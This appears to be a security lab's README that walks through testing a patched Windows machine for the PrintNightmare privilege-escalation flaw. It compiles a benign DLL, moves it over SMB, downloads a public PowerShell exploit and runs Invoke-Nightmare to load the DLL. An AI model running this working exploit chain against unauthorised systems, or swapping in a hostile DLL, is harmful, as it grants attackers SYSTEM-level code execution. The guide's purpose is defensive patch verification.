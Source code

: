 # Test if you are still vulnerable to PrintNightmare's privesc after patching

PrintNightmare (CVE-2021-1675 / CVE 2021 34527) is an exploit that takes advantage of the AddPrintDriver function of the Spooler to arbitrarily execute files with high-privs.

There is some confusion if the round of patches released by Microsoft on 6th July 2021. It seems the RCE portion of the exploit is patched, but the privilege escalation may still be vulnerable.

We have put together a step-by-step to run a test PoC to see if the recent patch has been effective for your machine. This guide will do no damage to your machine, neither should it crash the machine or spooler. It will simply write `C:\PrintNightmare.txt`

Thanks to John Hammond and Caleb Stewart from Huntress for releasing this [PowerShell implementation](https://github.com/calebstewart/CVE-2021-1675) of PrintNightmare

## Pre-check
```powershell
get-service spooler
```
![image](https://user-images.githubusercontent.com/49488209/124728554-9a371b80-df07-11eb-8e91-8d30eea92e73.png)

If spooler isn't running, won't be vulnerable, you can quit here and now.
Otherwise if running, begin exploitation.

## DLL

If you trust us enough, we have a [pre-compiled DLL you can download from right here](nightmare.dll). Please check the hash matches

```bash
sha256sum nightmare.dll
#hash should be 894a086c62adbf9181e7c70f06f3d16364ce9019e9b041bc4d39f5c5193d8769
```

This DLL will just print an innocent, non-malicious file called *Printnightmare.txt* to *C:\*

Otherwise, you are welcome to follow the guidance below to compile the DLL yourself. Clicking the drop-down arrow below will open up compile guidance


<details>
    <summary>Compile non-malicious DLL</summary>


## Prepare non-Malicious DLL
Run this on your attacker box

#### Install Dependencies
```bash
sudo apt apt install gcc-mingw-w64
sudo apt-get install g++-mingw-w64-x86-64
```
### Write the Dll
```bash
nano nightmare.cpp
```

This DLL will just print an innocent, non-malicious file called *Printnightmare.txt* to *C:\*

```cpp
#include <windows.h>

int printy()
{
  WinExec("cmd.exe /c echo > C:\\printnightmare.txt",0);
   return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
  printy();
  return 0;
}
```

#### Compile DLL
```bash
sudo x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL nightmare.cpp         
sudo x86_64-w64-mingw32-g++ -shared -o nightmare.dll nightmare.o -Wl,--out-implib,nightmare.a
```
![image](https://user-images.githubusercontent.com/49488209/124728640-a9b66480-df07-11eb-9c9d-42e2cea1b6c7.png)

</details>
 
  
## Transfer DLL however you like, impacket's smbserver.py works
### In Kali
```bash
sudo impacket-smbserver kali . -smb2support
```
![2021-07-07_09-43](https://user-images.githubusercontent.com/49488209/124728745-bdfa6180-df07-11eb-876b-1155026cb191.png)


### Copy from Kali to in Windows
```cmd
:: I copied mine into C:\
copy \\yourip\\kali\\nightmare.dll
```
![image](https://user-images.githubusercontent.com/49488209/124728825-cf436e00-df07-11eb-9ff5-d56bc338720a.png)


## Exploit
### Pull Powershell exploit, written by John Hammond and Caleb from Huntress

```powershell
invoke-webrequest -uri "https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1" -UseBasicParsing -outfile CVE-2021-1675.ps1
```

#### Deploy Exploit
```powershell
import-module .\CVE-2021-1675.ps1
Invoke-Nightmare -DLL "C:\nightmare.dll"
```
![image](https://user-images.githubusercontent.com/49488209/124728899-e2563e00-df07-11eb-9b30-96d8509caad8.png)


### Check C:\ for PrintNightmare.txt
![image](https://user-images.githubusercontent.com/49488209/124728938-eb470f80-df07-11eb-9acb-03bfe59a14ec.png)

It doesn't matter what its contents is, it just matters that it exists. 

### For any questions, comments, and criticisms, please find us on Twitter at [LABS](https://twitter.com/jumpseclabs?lang=en) or on [MAIN](https://twitter.com/jumpsec)
